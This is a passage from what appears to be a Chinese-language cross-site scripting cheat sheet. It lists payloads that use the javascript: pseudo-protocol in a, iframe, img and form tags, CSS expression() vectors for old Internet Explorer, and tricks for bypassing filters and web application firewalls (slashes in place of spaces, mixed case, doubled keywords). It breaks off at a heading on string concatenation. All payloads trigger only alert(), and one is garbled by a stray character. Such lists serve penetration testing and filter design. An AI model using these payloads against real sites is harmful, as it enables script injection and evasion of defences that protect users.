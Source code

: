 ### javascript伪协议

`<a>`标签

    <a href="javascript:alert(`xss`);">xss</a>

`<iframe>`标签

    <iframe src=javascript:alert('xss');></iframe>

`<img>`标签

    <img src=javascript:alert('xss')>//IE7以下

`<form>`标签

    <form action="Javascript:alert(1)"><input type=submit>

### 其它

expression属性

    <img style="xss:expression(alert('xss''))"> // IE7以下
    <div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
    <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下

background属性

    <table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效

有过滤的情况下
=======

过滤空格
----

用`/`代替空格

<img/src\="x"/onerror\=alert("xss");\>

过滤关键字
-----

### 大小写绕过

<ImG sRc\=x onerRor\=alert("xss");\>

### 双写关键字

有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

<imimgg srsrcc\=x onerror\=alert("xss");\>

### 字符拼接
